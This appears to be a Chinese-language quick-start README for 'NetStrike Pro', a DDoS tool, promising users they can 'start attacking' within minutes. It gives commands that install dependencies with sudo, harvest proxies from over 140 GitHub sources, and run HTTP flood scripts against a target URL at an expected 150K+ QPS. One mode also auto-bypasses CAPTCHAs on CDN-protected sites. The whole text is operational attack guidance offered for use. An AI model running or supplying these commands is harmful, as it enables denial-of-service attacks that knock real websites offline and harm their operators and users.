 # ⚡ NetStrike Pro - 快速使用指南

**3 分钟上手 | 立即开始攻击**

---

## 🚀 最快上手方式（3 步）

### 步骤 1: 安装依赖（3 分钟）

```bash
cd NetStrike-Pro/legacy
sudo ./Nodejs.sh
```

等待完成，会自动安装：
- ✅ Node.js 20
- ✅ Go (最新版)
- ✅ 所有 npm 包

---

### 步骤 2: 获取代理（2 分钟）

```bash
node github_list.js
```

会自动从 140+ GitHub 源下载代理到 `proxies_all.txt`

---

### 步骤 3: 发起攻击（立即）

**选择一种方式**:

#### 方式 A: 最强攻击（推荐）⭐

```bash
node floodernew.js GET "https://target.com" 120 16 90 proxies_all.txt --debug
```

**预期**: 150K+ QPS

---

#### 方式 B: 全自动绕过（智能）⭐⭐⭐

```bash
node main.js -u https://target-with-cdnfly.com -p proxies_all.txt -t 10 -r 15 -s 300 -o
```

**功能**:
- ✅ 自动检测验证码
- ✅ 自动绕过验证码
- ✅ 自动发起攻击

---